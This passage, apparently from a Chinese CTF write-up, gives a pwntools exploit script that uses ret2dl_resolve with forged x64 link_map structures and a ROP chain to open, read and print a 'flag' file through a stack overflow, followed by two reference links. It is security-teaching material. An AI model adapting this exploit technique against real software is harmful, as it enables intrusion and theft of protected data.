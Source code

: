 ```python
    linkmap+=p64(0)+p64(known_offset_addr-8)
    linkmap+='flag\x00'#for open offset 0x48
    linkmap = linkmap.ljust(0x68,'A')
    linkmap+=p64(linkmap_addr)
    linkmap+=p64(linkmap_addr+0x38)
    linkmap = linkmap.ljust(0xf8,'A')
    linkmap+=p64(linkmap_addr+8)

    resolve_call = p64(plt0+6)+p64(linkmap_addr)+p64(0)
    return (linkmap,resolve_call)

prdi=0x0000000000400da3
prsi_r15=0x0000000000400da1
buf = 0x602100
stage = 0x602400
prdx = 0x0000000000001b92# : pop rdx ; ret

#open
linkmap1,call1 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['open']-libc.sym['__libc_start_main'],stage)
#read
linkmap2,call2 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['read']-libc.sym['__libc_start_main'],stage+0x100)
#write
linkmap3,call3 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['write']-libc.sym['__libc_start_main'],stage+0x200)
#set rdx
linkmap4,call4 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],prdx-libc.sym['__libc_start_main'],stage+0x300)

pay = 'a'*0x148+p64(prdi)+p64(stage)+p64(bin.plt['gets']) #write linkmap
pay+=p64(prdi)+p64(stage+0x48)+p64(prsi_r15)+p64(0)+p64(0)+call1 #open
pay+=p64(prdi)+p64(3)+p64(prsi_r15)+p64(buf)+p64(0)+call2 # read
pay+=call4+p64(0x20) #set rdx
pay+=p64(prdi)+p64(1)+p64(prsi_r15)+p64(buf)+p64(0)+call3 #write
pay+=p64(0x400D36)
#z('b*0x0000000000400CE8\nb write\nb read\nc')
cn.sendline(pay)
sleep(0.1)
cn.sendline(linkmap1+linkmap2+linkmap3+linkmap4)

cn.interactive()
```


## 参考

[http://rk700.github.io/2015/08/09/return-to-dl-resolve/](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)

[http://www.inforsec.org/wp/?p=389](http://www.inforsec.org/wp/?p=389)
